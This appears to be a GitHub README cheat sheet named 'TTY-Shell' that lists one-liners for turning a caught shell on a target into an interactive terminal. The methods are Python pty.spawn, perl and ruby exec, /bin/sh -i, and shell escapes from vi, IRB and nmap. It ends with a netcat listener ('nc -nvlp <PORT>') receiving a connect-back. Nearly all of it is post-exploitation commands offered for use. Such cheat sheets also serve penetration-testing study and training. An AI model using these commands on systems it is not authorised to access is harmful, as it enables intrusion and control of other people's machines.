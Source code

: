 # TTY-Shell
Here are some commands which will allow you to spawn a tty shell. Obviously some of this will depend on the system environment and installed packages.
# match the target system
## Shell Spawning
- `python -c 'import pty; pty.spawn("/bin/bash")'`
- `python -c 'import pty; pty.spawn("/bin/sh")'`
- `python3 -c 'import pty; pty.spawn("/bin/bash")'`
- `python3 -c 'import pty; pty.spawn("/bin/sh")'`
- `echo os.system('/bin/bash')`
- `/bin/sh -i`
- `perl —e 'exec "/bin/sh";'`
- `perl: exec "/bin/sh";`
- `ruby: exec "/bin/sh"`
## (From within IRB)
- `exec "/bin/sh"`
## (From within vi)
- `:!bash`
- `:set shell=/bin/bash:shell`
## (From within nmap)
- `!sh`
# Example
Listening using `nc -nvlp <PORT>` and we get back connect
<img src="https://github.com/chikyukrish/TTY-Shell/blob/main/ss1.png" widht="250"/>
